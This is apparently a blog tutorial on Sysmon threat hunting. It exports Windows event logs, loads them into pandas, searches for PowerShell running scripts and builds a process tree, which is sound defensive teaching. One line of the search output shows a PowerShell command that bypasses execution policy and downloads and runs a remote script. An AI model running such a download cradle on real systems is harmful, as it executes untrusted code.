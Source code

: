 ```yaml
---
title: "Threat Hunting with sysmon 101 part 4: Loading events in pandas dataframe"
date: 2024-03-25 22:40:00 +0200
categories: Threat_hunting
description: Threat hunting with sysmon 
tags: Threat hunting sysmon Threat-hunting windows logs ELK
published: true
---
```


In the past article, we used powershell scripting to filter the events and perform basic querying, in this article we will load sysmon logs into python, and explore some powerful queries that we can apply to our data to gain better understanding of it.

# Exporting events to xml
The first step is to export sysmon events from the event log in xml format. This can be done either using get-winevent, or wevtutil. But, it seems that wevtutil is much faster .

This command uses **wevtutil.exe** to dump the logs to **exported-eventlog.xml** file on the desktop in XML format.
```
WEVTUtil query-events "Microsoft-Windows-Sysmon/Operational" /format:xml /e:events > ~/Desktop/exported-eventlog.xml
```
Or, this slower version that uses **Get-WinEvent** powershell command
```
 Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'} |Export-Clixml -Path ~/Desktop/exported-eventlog.xml
```

Make sure to run these commands as admin in order to export the logs properly.

# Loading Events in python
Parsing XML files in python is easy, we just need to know which nodes/attributes are useful for us, this code snipper will load the xml file, iterate over each event, extract some data from each event, and then store load every thing in pandas dataframe.

```
import tabulate
from bs4 import BeautifulSoup
import pandas as pd

with open(r'exported-eventlog.xml', 'r' , encoding='utf16') as f:
    data = f.read()

parsed = BeautifulSoup(data, "xml")

events_list  = []
for event in parsed.find_all('Event'):
    evt_dict ={}
    evt_dict['EventID'] = event.find('EventID').text
    evt_dict['Computer'] = event.find('Computer').text
    evt_dict['EventRecordID'] = event.find('EventRecordID').text
    for j in event.find_all("Data"):
        evt_dict[j['Name']] = j.text
    events_list.append(evt_dict)

df = pd.DataFrame(events_list)
print('Loaded %d events' % len(df))
```

# Usecase: Search for execution of .ps1 files
We can use python to do case insensitive searches in the data, in this example, we are using regex to search the "CommandLine" field for powershell executing ps1 script files.
```
filtered_df = df[(df['CommandLine'].notna()) & (df['CommandLine'].str.match('.*PoWeRSHeLl.*pS1.*',case=0))][['EventID','ProcessId','Image','CommandLine']]
print(tabulate.tabulate(filtered_df ,headers= filtered_df.columns))
```
And the result shows the execution of the exercise file we used in the last post.
```
        EventID    ProcessId  CommandLine
----  ---------  -----------  ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 115          1         3900  powershell.exe  -noexit -ep bypass -command IEX((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/11x256/11x256.github.io/test/assets/exercise/th3/1.ps1'))

9082          1         7464  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noexit -command "try { . \"c:\Users\abdo-pc\AppData\Local\Programs\Microsoft VS Code\resources\app\out\vs\workbench\contrib\terminal\browser\media\shellIntegration.ps1\" } catch {}"

```


# Usecase: Create Process Tree
Another thing we can try now is to create a process tree to show the relationships between the processes.
In order to create a process tree, we will need 2 things:
- identify root nodes, these nodes (processes) don't have a parent, this can be either due to missing data, or because thats the first process created by the OS.
- Create list of children of each node: this will allow us to create the parent-child relationship


## The firs step: Prepare the data
In this step will check what nodes are missing from our data ,and we will select a subset of filed to use in the process tree
```
# List to store all the nodes
nodes = []
# Dictionary to identify missing nodes
nodes_guids = {}
for i in df[df['EventID'] == "1" ].itertuples():
    node = {}
    node['Name'] = i.Image.split('\\')[-1]
    node['Cmd'] = i.CommandLine
    node['ProcessGuid'] = i.ProcessGuid
    node['ParentProcessGuid'] = i.ParentProcessGuid
    node['ProcessId'] = i.ProcessId

    nodes.append(node)
    nodes_guids[i.ProcessGuid] = 1 # set the node in the dict as available
```



## The second step: Create the parent-child relationship

```
roots = []
children = {}

for i in nodes:
    if nodes_guids.get(i['ParentProcessGuid'] , 0 ) == 0:
        roots.append(i)
    else:
        if i['ParentProcessGuid']  not in children:
            children[i['ParentProcessGuid'] ] = []
        children[i['ParentProcessGuid'] ].append(i)


```

This code will create a list of roots, nodes without a parent in our set of data. And it will create a list of children for each parent

## The third step: Print the tree
Now, we have every thing ready, we just need to print the data using recursion. Recursion is used in order to print the data in the required order, we need to print the root, then the first child, then the first child of the first child, and so on...
```
root
    child 1
        child 1 1
            child 1 1 1
        child 1 2
        child 1 3
            child 1 3 1
            child 1 3 2
    child 2
    child 3 
    ... 
```
Using a for loop to print the data , we will get in weird order for a process tree, which will look like this:
```
root
    child 1
    child 2
    child 3
    child 4
    child 1 1
    child 1 2
    child 3 1
    .... and so on
```

```
def print_node(node, indent =0):
    print(' '*indent , node['Name'] , node['ProcessId'])
    for j in children.get(node['ProcessGuid'] , []):
        print_node(j, indent=indent+4)
for i in roots:
    print_node(i)

```

Which would print something like this, based on what you choose to print 

```
 mscorsvw.exe 1532
 mscorsvw.exe 5964
 chrome.exe 9320
     chrome.exe 6456
     chrome.exe 7568
     chrome.exe 940
     chrome.exe 10788
     chrome.exe 7448
     chrome.exe 3400
     chrome.exe 7060
     chrome.exe 5292
     chrome.exe 11128
     chrome.exe 4340
     chrome.exe 8556
     chrome.exe 8816
     chrome.exe 2052
     chrome.exe 5896
     chrome.exe 7016
     cmd.exe 5292
         conhost.exe 8224
     chrome.exe 768
     chrome.exe 9288
     chrome.exe 9716
     cmd.exe 4264
         conhost.exe 6736
    ....
```


